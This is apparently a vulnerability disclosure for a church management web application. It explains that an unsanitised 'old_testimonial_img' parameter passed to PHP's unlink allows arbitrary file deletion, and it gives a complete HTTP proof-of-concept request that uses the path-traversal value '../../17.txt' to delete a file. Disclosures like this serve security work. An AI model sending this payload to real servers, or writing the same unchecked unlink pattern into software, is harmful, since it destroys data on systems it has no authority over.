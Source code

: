 ### Vulnerability file address

In line 425 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_testimonial_img']);`,` $_POST['old_testimonial_img']` parameters have not been restricted, which causes any file to be deleted

```php
if ($_FILES['testimoinalphoto']['tmp_name'] != '') {
            $filepath = "../../assets/images/" . generateUniqueFileName($_FILES["testimoinalphoto"]["name"]);

            if (move_uploaded_file($_FILES["testimoinalphoto"]["tmp_name"], $filepath)) {
                $img6 = basename($filepath);
                @unlink("../../assets/images/" . $_POST['old_testimonial_img']);
            }
        }
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 389

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update6"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_testimonial_img"

../../17.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="testimoinalphoto";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `17.txt` file in the `church/` directory

![image-20250505162855277](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051628310.png)

Then we execute the above poc to attack

![image-20250505162946353](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051629381.png)

Files are deleted after the attack is successful

![image-20250505162954389](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051629417.png)